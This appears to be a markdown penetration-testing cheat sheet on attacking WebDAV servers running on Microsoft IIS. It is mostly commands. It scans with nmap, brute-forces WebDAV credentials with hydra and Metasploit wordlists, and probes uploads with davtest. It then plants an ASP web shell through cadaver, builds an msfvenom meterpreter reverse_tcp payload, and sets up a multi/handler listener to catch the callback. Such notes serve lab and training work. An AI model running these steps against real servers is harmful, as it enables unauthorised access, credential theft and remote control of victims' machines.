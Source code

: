 # HTTP

## WebDAV
- Microsoft IIS
  - Hosts Web pages developed in ASP.NET and PHP.
  - Supported executable file extensions: .asp, .aspx, .config, .php.

- WebDAV typically runs on Apache on MS IIS.
  - Manage files on remote Web server.
  - Requires credentials.

- "DAVTest tests WebDAV-enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target. It is meant for penetration testers to quickly and easily determine if enabled DAV services are exploitable."

```
nmap -Pn -sV -p80 --script=http-webdav-scan,http-enum <ip>
```

```
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> http-get /webdav
```

```
curl http://<ip>/webdav/ -u <username>:<password>
```

```
davtest -url http://<ip>/webdav -auth <username>:<password>
```

```
cadaver http://<ip>/webdav
Username: <username>
Password: <password>

dav:/webdav/> help
dav:/webdav/> ls
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
==> A webshell is a shell that you can access through the Web. It is NOT a reverse shell.

http://<ip>/webdav/webshell.asp
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp > reverse.asp

msf > use /multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST <ip>
msf > set LPORT <port>
msf > exploit

http://<ip>/webdav/reverse.asp
==> Does not work, even with .aspx, why?
```
